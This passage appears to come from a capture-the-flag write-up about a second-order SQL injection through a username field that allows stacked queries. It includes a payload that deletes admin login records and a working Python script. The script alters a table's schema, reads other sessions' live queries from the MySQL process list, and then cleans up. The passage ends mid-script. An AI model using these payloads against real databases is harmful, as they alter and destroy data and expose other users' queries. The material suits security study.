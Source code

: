 The username field is not only vulnerable to `union-based` attacks, but it also supports `stacked queries`, which we can confirm with a payload like this:

```" UNION SELECT 1,2;DELETE FROM web.logins WHERE username="admin";#```

As we can see, we are able to delete the last login times for the `admin` user each time we make a request to the last logins page.

![Web 80 Stacked Queries](web_80_stacked_queries.webp){: width="600" height="500" }

Since both the `id` and `username` fields from the `users` table are reflected on the page, and we are using the `username` field for our payload, we can utilize the `id` field to extract data from the database.

This requires us to first modify the table and change the data type for `id` column from integer to string. After that, we can update the `id` field in the table with the currently running queries. For this, we can use the following script:

```py
#!/usr/bin/env python3

import requests
import re
import time
import sys

url_base = sys.argv[1]

# modify the data type for the id column
s = requests.session()
payload = f'" UNION SELECT 1,2; ALTER TABLE web.users MODIFY id VARCHAR(255); ALTER TABLE web.users DROP PRIMARY KEY;#'
s.post(url_base + "register.php", data={"username": payload, "password": "jxf", "submit": "Submit Query"})
s.post(url_base + "login.php", data={"username": payload, "password": "jxf", "login": "Submit Query"})
s.get(url_base)

# create and log in with an account to update the id column with the current queries if it is not empty
s = requests.session()
payload = f'" UNION SELECT 1,2; UPDATE web.users SET id=(SELECT IFNULL(GROUP_CONCAT(INFO_BINARY),"1") FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%") WHERE username="admin";#'
s.post(url_base + "register.php", data={"username": payload, "password": "jxf", "submit": "Submit Query"})
s.post(url_base + "login.php", data={"username": payload, "password": "jxf", "login": "Submit Query"})

# constantly update the id field by fetching the last logins page and if it is not set to 1, print it and exit
while True:
    r = s.get(url_base)
    if "User 1 - admin" not in r.text:
        print(re.search(r"User (.*) - admin last logins", r.text).group(1))
        
        # after successful extraction, clean up the database
        payload = f'" UNION SELECT 1,2; DELETE FROM web.users WHERE username LIKE "%UNION SELECT 1,2%"; UPDATE web.users SET id="1" WHERE username="admin"; ALTER TABLE web.users MODIFY id INT PRIMARY KEY AUTO_INCREMENT;#'
        s = requests.session()
        s.post(url_base + "register.php", data={"username": payload, "password": "jxf", "submit": "Submit Query"})
```